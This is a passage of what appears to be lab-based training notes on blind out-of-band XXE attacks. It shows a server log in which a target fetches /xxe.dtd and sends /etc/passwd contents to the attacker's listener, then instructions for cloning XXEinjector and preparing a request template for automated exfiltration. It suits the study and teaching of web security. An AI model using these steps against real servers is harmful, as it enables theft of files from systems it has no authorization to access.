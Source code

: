 ```xml
```
Then, we can send our request to the web app:
![[rJYWDfW_yx.png]]
We will see that we did indeed get the request to our terminal and its decoded content:
```bash
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```
### Automated OOB Exfiltration
Although in some instances we may have to use the manual method above, but in many cases we can automate the process of **blind XXE data exfil** with tools. One such tool is [XXEinjector](https://github.com/enjoiz/XXEinjector). 

This tool supports most of the tricks we learned, including **basic XXE**, **CDATA source exfiltration**, **error-based XXE**, and **blind OOB XXE**.

To use this tool for **automated OOB exfiltration**, we can first clone the tool to our machine, as follows:
```bash
$ git clone https://github.com/enjoiz/XXEinjector.git

Cloning into 'XXEinjector'...
...SNIP...
```

Then we can copy the HTTP request from Burp and write it to a file. We should not include the full XML data, only the first line, and write ``XXEINJECT`` after it as a position locator for the tool:
```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```
Now, we can run the tool with:
* ``--host``/``--httpport`` flags being our **IP** and **port**,
* ``--file`` flag being the file we wrote above, 
* ``--path`` flag being the file we want to read. 
 